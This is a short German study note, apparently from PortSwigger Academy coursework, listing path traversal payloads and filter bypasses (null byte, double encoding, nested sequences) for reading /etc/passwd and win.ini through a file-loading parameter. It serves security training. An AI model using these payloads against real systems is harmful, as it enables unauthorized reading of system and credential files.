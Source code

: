 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Checkliste


1. Prüfen ob irgendwo Pfade aufgerufen werden z. B. wenn Bilder oder andere Inhalte geladen werden.

```html
<img src="/loadImage?filename=218.png">
```


`....//....//....//etc/passwd`

Linux/Win
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

**Bypasses:**
- Expected Base Pfad `filename=/var/www/images/../../../etc/passwd`
- Expected File Extension `filename=../../../etc/passwd%00.png`
- Encoding `..%252f..%252f..%252fetc/passwd`
